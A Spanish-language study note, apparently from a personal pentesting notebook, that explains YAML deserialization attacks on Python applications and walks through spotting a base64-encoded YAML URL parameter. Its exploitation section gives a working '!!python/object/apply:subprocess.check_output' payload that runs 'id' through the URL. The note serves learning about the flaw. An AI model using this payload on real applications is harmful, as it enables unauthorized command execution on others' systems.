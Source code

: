 ----
- Tags: #ataques #teoria #practica #basico 
----

# ¿ Que es un **Ataque de Deserialización Yaml** ? 

Un **ataque de Deserialización Yaml (DES-Yaml)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan **YAML (Yet Another Markup Language)** para serializar y deserializar objetos. 

La vulnerabilidad se produce cuando un atacantes es capaz de controlar la entrada YAML que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada YAML, puede permitir que un atacante inyecte código malicioso en el objeto deserializado. 

Una vez el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto. 

Lo atacantes pueden aprovecharse de las vulnerabilidades de DES-Yaml para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema. 

El impacto de un **Ataque de deserialización Yaml** depende del tipo y la sensibilidad de los datos que se pueden obtener, pero puede ser muy grave. por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren adecuadamente la entrada YAML que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables. 

------------

# Explotación 

Para explotar un ataque de deserialización cuando reconocemos que esta yaml corriendo por detrás, es importante que, como siempre, hay que tener en cuenta en caso, esto puede ser muy fácil así como difícil dependiendo la sanitización de la aplicación web, entre otros factores. 
Existen páginas como [esta](https://www.pkmurphy.com.au/isityaml/) en las cuales enseñan como se podría llegar a ejecutar comandos a través de un ataque de deserialización.  

Por ejemplo, si tenemos una aplicación la cual corre python y vemos que se nos redirige a una url tal que así: 

#### ..../eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==

Podemos intuir que es una cadena en base64, por lo que si la decodeamos: 

```bash
echo -n "eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==" | base64 -d; echo
```

Veríamos el output: `yaml: The information page is still under construction, updates coming soon!`, intuyendo así que por detrás corre YAML. Usando la página previamente mencionada veríamos que para intentar ejecutar comandos en un aplicativo que deserializa información yaml sin validaciones con el payload `!!python/object/apply:subprocess.check_output ['<command_to_execute>']`.

Pudiendo así ejecutar comandos a través de la explotación de la deserialización YAML en python haciendo lo siguiente: 

```bash
echo -n "yaml: !!python/object/apply:subprocess.check_output ['id']" | base64 -w 0; echo 
```

Y pegando la cadena de base64 como URL para así lograr la ejecución de comandos. 

